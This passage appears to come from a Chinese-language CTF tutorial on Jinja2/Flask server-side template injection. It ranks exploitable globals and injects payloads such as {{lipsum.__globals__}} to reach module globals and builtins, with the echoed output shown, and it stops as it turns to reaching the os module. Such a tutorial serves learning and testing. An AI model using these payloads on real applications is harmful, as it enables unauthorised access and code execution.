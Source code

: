 | `config`               | Flask      | **极高危**，直接访问配置         |
| `request`              | Flask      | 请求对象，泄露请求信息           |
| `session`              | Flask      | 会话对象，读取/篡改会话          |
| `g`                    | Flask      | 访问上下文                       |
| `current_app`          | Flask      | 应用实例，**高危**，访问应用核心 |

### Payload构造

首先要选取一个可以获取的全局对象，我们以`lipsum`、`config`、`" "`分别为例。

#### 由`lipsum`构造Payload

对于`lipsum`，当我们在注入点输入`{{lipsum}}`时可以得到回显：

```
Hi, <function generate_lorem_ipsum at 0x7f91fe6951c0>.
```

这代表我们利用的是一个全局的函数对象。那么对于函数对象就可以直接使用`__globals__`这个魔术属性获取全局上下文，我们编写`{{lipsum.__globals__}}`得到回显：

```
Hi, {'__name__': 'jinja2.utils', '__doc__': None, '__package__': 'jinja2', '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f91fe676840>, '__spec__': ModuleSpec(name='jinja2.utils', loader=<_frozen_importlib_external.SourceFileLoader object at 0x7f91fe676840>, origin='/mnt/e/ctfTools/ctfenv/lib/python3.12/site-packages/jinja2/utils.py'), '__file__': '/mnt/e/ctfTools/ctfenv/lib/python3.12/site-packages/jinja2/utils.py', '__cached__': '/mnt/e/ctfTools/ctfenv/lib/python3.12/site-packages/jinja2/__pycache__/utils.cpython-312.pyc', '__builtins__': {'__name__': 'builtins', '__doc__': 
...
function vars>, 'None': None, 'Ellipsis': Ellipsis, 'NotImplemented': NotImplemented, 'False': False, 'True': True, 'bool': <class 'bool'>, 'memoryview': <class 'memoryview'>, 'bytearray': <class 'bytearray'>, 'bytes': <class 'bytes'>, 'classmethod': <class 'classmethod'>, 'complex': <class 'complex'>, 'dict': <class 'dict'>, 'enumerate': <class 'enumerate'>, 'filter': <class 'filter'>, 'float': <class 'float'>, 'frozenset': <class 'frozenset'>, 'property': <class 'property'>, 'int': <class 'int'>, 'list': <class 'list'>, 'map': <class 'map'>, 'object': <class 'object'>, 'range': <class 'range'>, 'reversed': <class 'reversed'>, 'set': <class 'set'>, 'slice
...
, file "/mnt/e/ctfTools/ctfenv/lib/python3.12/site-packages/jinja2/runtime.py", line 852>, <code object compile at 0x7f91fe6481f0, file "/mnt/e/ctfTools/ctfenv/lib/python3.12/site-packages/jinja2/environment.py", line 731>}, 'concat': <built-in method join of str object at 0xb3c770>, 'pass_context': <function pass_context at 0x7f91fe6947c0>, 'pass_eval_context': <function pass_eval_context at 0x7f91fe6949a0>, 'pass_environment': <function pass_environment at 0x7f91fe694a40>, '_PassArg': <enum '_PassArg'>, 'internalcode': <f
...
```

许多Web框架会隐式导入`os`模块，用于处理文件路径、环境变量等，在一般情况下如果我们能在global中发现：

```
'os': <module 'os' (frozen)>
```
